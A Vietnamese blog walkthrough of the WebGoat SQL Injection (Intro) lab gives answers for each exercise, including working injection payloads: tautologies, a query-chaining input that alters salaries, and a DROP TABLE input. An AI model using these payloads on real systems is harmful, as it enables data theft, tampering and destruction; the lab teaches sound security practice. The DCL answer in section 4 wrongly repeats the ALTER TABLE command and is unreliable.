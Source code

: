 ```yaml
---
title: "(A3) SQL Injection - SQL Injection (Intro) - Webgoat"
tag: "webgoat"
subtitle: " 🐐
  Bài viết này mình sẽ hướng dẫn các bạn làm phần (A3) SQL Injection - SQL Injection (Intro)"
date: "20-3-2024"
id: "10"
---
```


- **SQL Injection** là một kỹ thuật tấn công phổ biến trong lĩnh vực bảo mật web, mà kẻ tấn công sử dụng để thực hiện các thao tác không hợp lệ trên cơ sở dữ liệu của ứng dụng web thông qua việc chèn các câu lệnh SQL bất hợp pháp vào các trường nhập liệu của biểu mẫu web hoặc các tham số truy vấn URL.

- Khi một ứng dụng web không kiểm tra và xử lý đầu vào của người dùng một cách an toàn, kẻ tấn công có thể chèn các câu lệnh SQL như SELECT, INSERT, UPDATE hoặc DELETE vào các trường nhập liệu. Khi thực thi, các câu lệnh này có thể gây ra các hậu quả nguy hiểm như thu thập thông tin nhạy cảm, sửa đổi hoặc xóa dữ liệu trong cơ sở dữ liệu, hoặc thậm chí kiểm soát hoàn toàn ứng dụng web.

- Để phòng tránh SQL Injection, các nhà phát triển cần áp dụng các biện pháp bảo mật như sử dụng câu lệnh tham số hóa, sử dụng các API truy cập cơ sở dữ liệu an toàn, kiểm tra và xử lý đầu vào của người dùng một cách cẩn thận, và thường xuyên kiểm tra và cập nhật bảo mật cho ứng dụng web.

## 1. What is SQL?

- Đề bài yêu cầu lấy department của nhân viên Bob Franco
- Nhập câu lệnh SQL sau và nhấn submit là xong:

```json
SELECT department FROM employees WHERE USERID = 96134
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936742/WebGoat/H37_ehbiz5.png)

## 2. Data Manipulation Language (DML)

- Đề bài yêu cầu thay đổi department của Tobi thành 'Sales'
- Nhập câu lệnh sau và nhấn submit là xong:

```json
UPDATE employees SET department = 'Sales' WHERE USERID = 89762
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936742/WebGoat/H38_gbcfc5.png)

## 3. Data Definition Language (DDL)

- Đề bài yêu câu thêm một trường "phone" vào bảng "employees"
- Nhập câu lệnh sau và nhấn submit là xong:

```json
ALTER TABLE employees ADD phone varchar(20)
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936743/WebGoat/H39_eaaird.png)

## 4. Data Control Language (DCL)

- Đề bài yêu cầu cấp quyền cho bảng `grant_rights ` đến user là `unauthorized_user`:
- Nhập câu lệnh sau và nhấn submit là xong:

  ```json
  ALTER TABLE employees ADD phone varchar(20)
  ```

  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936743/WebGoat/H40_qj3x9g.png)

## 5. Try It! String SQL injection

- Đề bài yêu cầu hoàn thành câu lệnh SQL
- Ta lần lượt chọn các ô là: `Smith' `, `OR` và ` '1' = '1`. Nhấn Get Account Info
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936744/WebGoat/H41_xdzzbm.png)

## 6. Try It! Numeric SQL injection

- Đề bài yêu cầu lấy tất cả thông tin trong bảng users
- Ta lần lượt điền: Login_Count: `0` và User_Id:`6 OR TRUE`. Nhấn Get Account Info
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936744/WebGoat/H42_wm0w84.png)

## 7. Compromising confidentiality with String SQL injection

- Đề bài yêu cầu lấy tất cả dữ liệu ` employees`
- Ta điền: Employee Name: `TAN' OR TRUE --`. Nhấn Get department
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936749/WebGoat/H43_ndr5p5.png)

## 8. Compromising Integrity with Query chaining

- Lần lượt nhập: Employee Name: `Smith` và Authentication `TAN: 3SL99A'; UPDATE employees SET salary = 10000000 WHERE auth_tan = '3SL99A'--` . Nhấn Get department:
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936751/WebGoat/H44_n7yzcj.png)

## 9. Compromising Availability

- Ta nhập lệnh: `UPDATE'; DROP TABLE access_log --`. Và nhấn Search logs
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936750/WebGoat/H45_aufcrd.png)

## Tham khảo:

1.  Đỗ Tuấn: [Link](https://www.youtube.com/watch?v=7WecQCiCeSE "Link")
